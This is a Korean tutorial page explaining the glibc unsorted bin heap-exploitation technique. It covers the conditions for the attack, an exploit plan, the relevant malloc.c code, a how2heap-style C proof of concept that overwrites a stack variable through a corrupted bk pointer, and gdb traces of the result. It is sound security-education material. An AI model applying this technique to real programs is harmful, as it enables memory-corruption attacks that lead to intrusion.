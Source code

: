 # **Unsorted bin attack**

## **Conditions**

* 공격자에 의해 Unsorted Chunk를 생성할 수 있어야 함
* 공격자에 의해 Free Chunk 영역에 값을 저장할 수 있어야 함
* 공격자에 의해 Free Chunk와 동일한 크기의 Heap 영역을 할당할 수 있어야 함

## **Exploit Plan**

1. 2개의 Small Chunk 생성
1. 첫번째 Heap 영역 해제
    * 헤당 Heap 영역은 Unsorted Bin에 등록
1. 해제된 첫번째 Heap의 bk영역에 공격 대상이 될 주소 값 덮어씀
1. 첫번째 Heap 영역과 동일한 크기의 Heap 영역 할당
    * 공격 대상 영역에 main_arnea 영역의 주소가 저장됨

## **vulnerability**

* 아래의 malloc.c 코드에 의해 취약성 발생
* unsorted_chunks() 함수는 bin[0]에 저장된 값을 리턴
* stack_var = &av->bins[0] (main_arena.bins[0])

```c
for (;; )
  {
    int iters = 0;
    while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
      {
        bck = victim->bk;
          ...
 
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;  // bck == victim->bk == &stack_var - 2 
        bck->fd = unsorted_chunks (av);  // (&stack_var - 2)->fd == stack_var
 
          ...
      }
```

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

* stack_var(0x7fffffffe4d8)

```
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7fffffffe4d8: 0
```

* 2개의 Heap 생성 후 1번째 Heap 영역 free
* 1개의 Heap 영역을 추가로 생성하는 이유는 1번째 chunk가 top chunk와의 병합을 막기 위해서다.

```
Now, we allocate first normal chunk on the heap at: 0x60010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
```

* free된 Heap 영역이 unsortedbin에 저장된다.
* bk pointer는 0x7ffff7dd1b78을 가리키고 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x603620 (size : 0x209e0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x603000 (size : 0x420)

gdb-peda$ x/4gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000421
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78

gdb-peda$ x/24gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000603620	0x0000000000000000
0x7ffff7dd1b88 <main_arena+104>:	0x0000000000603000	0x0000000000603000
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
```

```
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4c8
```

* 1번째 Heap 영역의 bk를 stack_var - 0x10으로 변조 후 1번째 크기와 같은 size로 malloc 할 경우 stack_var 변수에 main_arena의 top 영역이 저장된다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x420                Freed     0x7ffff7dd1b78    0x7fffffffe4c8
0x603420            0x420               0x200                Used                None              None

gdb-peda$ x/gx 0x7fffffffe4d8
0x7fffffffe4d8:	0x00007ffff7dd1b78
```

```
Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7fffffffe4d8: 0x7ffff7dd1b78
```

* victim 주소를 컨트롤 할 수 있지만, 쓰게되는 값은 &av->bins[0] 고정이다.
* 따라서 main_arena 영역에 값을 덮어쓰거나, global_max_fast의 값을 변경할 때 사용한다.

**References**  
<https://www.lazenca.net/display/TEC/unsorted+bin+attack>
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c>